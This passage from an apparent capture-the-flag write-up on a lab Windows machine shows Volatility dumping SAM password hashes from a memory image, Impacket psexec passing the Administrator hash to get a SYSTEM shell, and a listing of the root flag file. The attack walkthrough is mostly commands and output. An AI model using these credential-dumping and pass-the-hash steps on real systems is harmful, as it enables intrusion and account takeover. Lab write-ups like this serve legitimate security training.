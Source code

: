     0xffffc000061a3000 0x0000000027532000 \SystemRoot\System32\Config\SECURITY
    0xffffc00000619000 0x0000000026cc5000 \SystemRoot\System32\Config\SAM
    0xffffc0000060d000 0x0000000026c93000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
    0xffffc000006cf000 0x000000002688f000 \SystemRoot\System32\Config\BBI
    0xffffc000007e7000 0x00000000259a8000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
    0xffffc00000fed000 0x000000000d67f000 \??\C:\Users\Administrator\ntuser.dat
    
    root@kali# volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000
    Volatility Foundation Volatility Framework 2.6
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
    

## root Shell

We could try to crack these, but first, let’s try pass the hash:

    
    
    root@kali# /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82
     administrator@10.10.10.82
    Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies
    
    [*] Requesting shares on 10.10.10.82.....
    [*] Found writable share ADMIN$
    [*] Uploading file XryxqKFr.exe
    [*] Opening SVCManager on 10.10.10.82.....
    [*] Creating service PAYb on 10.10.10.82.....
    [*] Starting service PAYb.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    nt authority\system
    

### root.txt

With that shell, flag is easy to grab:

    
    
    C:\Users\Administrator\Desktop>dir
     Volume in drive C has no label.
     Volume Serial Number is 78D4-EA4D
    
     Directory of C:\Users\Administrator\Desktop
    
    01/07/2018  02:34 PM    <DIR>          .
    01/07/2018  02:34 PM    <DIR>          ..
    01/04/2018  12:38 AM                32 root.txt
                   1 File(s)             32 bytes
                   2 Dir(s)  15,284,826,112 bytes free
    